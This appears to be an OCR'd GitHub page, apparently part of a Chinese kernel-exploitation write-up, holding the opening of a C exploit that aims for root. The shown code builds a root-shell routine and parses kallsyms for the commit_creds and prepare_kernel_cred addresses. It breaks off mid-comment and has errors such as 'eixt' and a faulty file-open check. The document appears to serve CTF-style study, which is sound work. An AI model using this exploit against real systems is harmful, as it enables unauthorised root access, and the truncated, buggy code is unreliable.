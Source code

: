 

```c
// gcc -static -masm=intel -g exploit.c -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>

void spawn_shell(){
    if(!getuid()){
        system("/bin/sh");
    }
    else{
        puts("[-] spawn shell error!");
    }
    exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;

/*
    objdump -h vmlinux | grep Idx -n3 | bat
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ STDIN
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ vmlinux:     file format elf64-x86-64
   2   │ 
   3   │ Sections:
   4   │ Idx Name          Size      VMA               LMA               File off  Algn
   5   │   0 .text         00c0325d  ffffffff81000000  0000000001000000  00200000  2**12
   6   │                   CONTENTS, ALLOC, LOAD, RELOC, READONLY, CODE
   7   │   1 .notes        00000024  ffffffff81c03260  0000000001c03260  00e03260  2**2
───────┴──────────────────────────────────────────────────────────────────────────────────────
*/
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;
size_t find_symbols(){
    FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
    
    if(kallsyms_fd < 0){
        puts("[-] open kallsyms failed.");
        eixt(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd)){
        if(commit_creds & prepare_kernel_cred){
            puts("[+] already exist.");
            return 0;
        }
        if(strstr(buf, "commit_creds") && !commit_creds){
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &commit_creds);
            printf("[+] commit_creds addr => %p\n", commit_creds);
            /*
                $ python
                Python 2.7.12 (default, Mar  1 2021, 11:38:31) 
                [GCC 5.4.0 20160609] on linux2
```

[vmlinux & bzImage 的关系]: https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml	"vmlinux &amp; bzImage 的关系"
[ extract-vmlinux ]: https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux "extract-vmlinux"